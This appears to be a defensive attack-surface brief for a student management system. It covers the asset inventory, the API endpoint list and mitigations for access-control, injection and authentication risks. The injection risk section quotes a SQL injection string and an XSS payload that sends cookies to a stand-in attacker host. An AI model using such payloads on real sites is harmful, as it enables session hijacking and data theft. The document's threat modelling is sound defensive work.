

# Attack Surface Brief (ASB)
**Project**:  Full-Stack Student Management System  
**Version**: 2.1.0 (Enterprise Hardened)  
**Date**: August 2026  
**Security Standard**: OWASP Top 10:2021 Compliance  
**Author**: Lead Security & Full-Stack Architect (Fuad Sabseb)  

---

## 1. Executive Summary & Asset Inventory

The ** Student Management System** processes sensitive institutional data including student personal identifiable information (PII), academic grading records, faculty schedules, and administrative configurations. This Attack Surface Brief maps all exposed system interfaces, trust boundaries, entry points, and high-priority vulnerability mitigations.

### Asset Criticality & Ownership Matrix

| Asset Name | Asset Type | Criticality | Data Stored / Handled | Owner |
| :--- | :--- | :--- | :--- | :--- |
| **`users` Table** | Database / Entity | **HIGH** | Credentials (`password_hash`), Usernames, Roles (`admin`, `teacher`, `student`) | Database Admin |
| **`grades` Table** | Database / Entity | **HIGH** | Exam marks, GPA, CGPA, academic standings | Academic Registrar |
| **`students` Table** | Database / Entity | **HIGH** | Student PII (Names, Emails, Phone Numbers, Department IDs) | Admissions Office |
| **Auth JWT Tokens** | Secret / Session | **HIGH** | Cryptographic session tokens with role and student ID claims | Auth Service |
| **`courses` & `departments`** | Database / Entity | **MEDIUM** | Academic curriculum, prerequisites, credit-hour weights | Academic Dean |
| **`announcements`** | Database / Entity | **LOW** | Campus bulletin notices, priority broadcasts | Institutional Admin |
| **`schedules` & `semesters`** | Database / Entity | **MEDIUM** | 5-day class timetable slots, academic calendar terms | Scheduling Office |
| **Audit Logs (`security_audit.log`)** | File System / Log | **HIGH** | Authentication attempts, IP addresses, RBAC rejections | Security Operations |

---

## 2. System Entry-Point Inventory

The application exposes the following network entry points and interfaces across its perimeter:

```
+----------------------------------------------------------------------------------------------------+
|                                     PUBLIC ENTRY POINTS (INTERNET)                                 |
+----------------------------------------------------------------------------------------------------+
  1. GET  /                         -> API Health Check & System Security Manifest
  2. POST /api/auth/login           -> User Authentication (Rate-limited: 10 reqs / 15 mins)
  3. POST /api/auth/register        -> Student Registration (Rate-limited: 10 reqs / 15 mins)
  4. POST /api/auth/logout          -> Session Termination & Audit Log
  5. GET  /api/courses              -> Public Academic Course Catalog
  6. GET  /api/courses/:id          -> Public Course Details & Credit Hours
  7. GET  /api/announcements        -> Public Campus Notices & Bulletin
  8. GET  /api/announcements/:id    -> Public Single Announcement Query

+----------------------------------------------------------------------------------------------------+
|                               AUTHENTICATED ENTRY POINTS (JWT REQUIRED)                            |
+----------------------------------------------------------------------------------------------------+
  9.  GET  /api/auth/me             -> Current Session Profile (Any authenticated role)
  10. POST /api/auth/change-password-> Password Update (Rate-limited: 5 reqs / 15 mins, complexity enforced)
  11. GET  /api/students/me         -> Student Own Profile (Student role only)
  12. PUT  /api/students/me         -> Student Self-Profile Update (Student role only)
  13. GET  /api/grades/my-grades    -> Student Own Academic Transcripts (Student role only)
  14. GET  /api/schedules/my-schedule-> Student Own Weekly Timetable (Student role only)

+----------------------------------------------------------------------------------------------------+
|                               FACULTY & ADMIN ENTRY POINTS (ROLE-RESTRICTED)                       |
+----------------------------------------------------------------------------------------------------+
  15. GET  /api/students            -> Full Student Roster (Admin & Teacher)
  16. GET  /api/students/:id        -> Single Student Record (Admin & Teacher)
  17. GET  /api/grades/course/:id   -> Course Gradebook Roster (Admin & Teacher)
  18. POST /api/grades              -> Single Grade Entry (Admin & Teacher)
  19. POST /api/grades/batch        -> Batch Spreadsheet Gradebook Entry (Admin & Teacher)
  20. POST /api/students            -> Student Admission / Creation (Admin only)
  21. PUT  /api/students/:id        -> Student Profile Mutation (Admin only)
  22. DELETE /api/students/:id      -> Soft-Delete Student Record (Admin only)
  23. POST /api/students/:id/courses-> Course Enrollment Assignment (Admin only)
  24. DELETE /api/students/:id/courses/:cId -> Drop Course Enrollment (Admin only)
  25. POST/PUT/DELETE /api/departments -> Department CRUD (Admin only)
  26. POST/PUT/DELETE /api/courses -> Curriculum CRUD (Admin only)
  27. POST/PUT/DELETE /api/announcements -> Campus Bulletin CRUD (Admin only)
  28. POST/PUT/DELETE /api/semesters -> Academic Terms CRUD (Admin only)
  29. POST/PUT/DELETE /api/schedules -> Timetable Scheduling CRUD (Admin only)
```

---

## 3. Trust-Boundary Architecture Diagram



---

## 4. Top 3 Security Risks & Mitigation Strategies

### Risk 1: Broken Access Control & Insecure Direct Object References (IDOR)
* **OWASP Category**: `A01:2021 – Broken Access Control`
* **Threat Scenario**: A malicious student modifies the URL parameter (e.g. `GET /api/grades/student/102` or `GET /api/students/102`) to view or manipulate another student's academic grades, GPA, and personal contact info.
* **Mitigation Strategy**:
  1. Centralized `rbacMiddleware.js` enforcing granular `requireRole('admin')` for administrative actions.
  2. Implemented `verifyStudentOwnership(paramName)` middleware that cryptographically checks `req.user.studentId === req.params.id`. Non-matching IDs receive a strict `403 Forbidden` and trigger an alert log event.
  3. Strict server-side route filtering ensuring teachers can only submit marks for courses they instruct.

---

### Risk 2: SQL Injection (SQLi) & Cross-Site Scripting (XSS)
* **OWASP Category**: `A03:2021 – Injection`
* **Threat Scenario**: Attacker injects SQL payloads (e.g. `' OR '1'='1`) into query parameters or posts malicious JavaScript (`<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>`) into student names or announcement bodies.
* **Mitigation Strategy**:
  1. **100% Parameterized Queries**: Every database interaction in `studentModel`, `userModel`, `gradeModel`, etc. uses parameterized prepared statements with `?` placeholders via `mysql2/promise`. No dynamic string interpolation is permitted.
  2. **Automated Input Sanitization**: `xssSanitizer` middleware parses all `req.body`, `req.query`, and `req.params` inputs, stripping inline script tags, iframe injections, `javascript:` protocols, and unquoted DOM event handlers (`onerror`, `onclick`, `onload`).
  3. **Strict Content Security Policy (CSP)**: Configured via Helmet to prohibit execution of untrusted inline scripts and restrict resource loading to whitelisted origins.

---

### Risk 3: Identification & Authentication Failures (Brute Force & Credential Stuffing)
* **OWASP Category**: `A07:2021 – Identification and Authentication Failures`
* **Threat Scenario**: Threat actors perform automated dictionary attacks against `/api/auth/login` to guess passwords or attempt privilege escalation by registering as `admin`.
* **Mitigation Strategy**:
  1. **Strict Rate Limiting**: `authRateLimiter` restricts login and registration attempts to a maximum of 10 requests per 15-minute window per IP. Excess attempts are throttled with `429 Too Many Requests`.
  2. **Password Complexity Engine**: Mandatory enforcement of minimum 8 characters with at least 1 uppercase letter, 1 lowercase letter, 1 number, and 1 special symbol (`!@#$%^&*`).
  3. **Cryptographic Password Hashing**: Passwords stored using `bcrypt` with a minimum salt work factor of 10.
  4. **Generic Error Responses**: Identical `401 Invalid username or password` returned for both non-existent users and incorrect passwords, defeating username enumeration.
  5. **Privilege Escalation Defense**: Self-registration enforces `role = 'student'`. Elevation to `admin` or `teacher` requires authenticated admin privileges or a pre-shared cryptographic secret (`ADMIN_REGISTRATION_KEY`).

---

## 5. Ethical Testing Statement

> **Ethical Compliance Declaration**:  
> All security testing, penetration test scripts, vulnerability scans, and stress tests conducted against this application were executed in an isolated local/staging environment (`NODE_ENV=test`) strictly adhering to ethical hacking principles. No live third-party systems or non-consenting user data were targeted. Security assessments were performed exclusively to identify and remediate vulnerabilities prior to production deployment.

---

## 6. Risk Notes & Residual Risk Assessment

1. **JWT Revocation Strategy**:
   - Current tokens use standard expiration (`8h`). For ultra-high security enterprise deployments, an in-memory or Redis token blacklist / refresh token rotation mechanism can be activated upon explicit logout.
2. **Database Layer Hardening**:
   - Production deployments must run MySQL behind a dedicated Virtual Private Cloud (VPC) with least-privilege database user credentials and TLS-encrypted connections (`ssl: { rejectUnauthorized: true }`).
3. **Audit Log Retention**:
   - Security audit logs in `logs/security_audit.log` must be forwarded to a centralized SIEM (e.g. Datadog, Splunk, or AWS CloudWatch) with append-only access controls to prevent tampering.
